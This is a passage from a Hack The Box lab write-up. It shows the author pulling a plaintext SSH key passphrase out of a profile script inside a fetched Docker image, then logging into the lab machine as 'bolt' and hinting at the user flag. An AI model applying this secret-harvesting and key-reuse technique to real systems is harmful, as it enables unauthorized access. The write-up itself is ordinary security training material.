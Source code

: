 |4,39,1,0,1558797115,"/etc/profile.d/01-ssh.sh"

# History of marks within files (newest to oldest):

> /var/www/html/sync.sh
	*	1558797175	0
		1	0

> /etc/profile.d/01-ssh.sh
	*	1558797112	0
		1	0
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#

{% endhighlight %}

The script contained the passphrase for the SSH key:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cat ./etc/profile.d/01-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#

{% endhighlight %}

I didn’t want to enter the passphrase every time I connected as ‘bolt’, so I removed the passphrase from the private key:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ssh bolt@registry.htb -i ~/.ssh/bolt_registry 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Dec 28 18:31:47 UTC 2019

  System load:  0.0               Users logged in:                1
  Usage of /:   5.7% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 37%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    161
Last login: Sat Dec 28 18:01:49 2019 from 10.10.14.111
bolt@bolt:~$ wc -c user.txt 
33 user.txt
bolt@bolt:~$

{% endhighlight %}

The user proof starts with ‘yt’ 😉

## Getting Credentials for the CMS
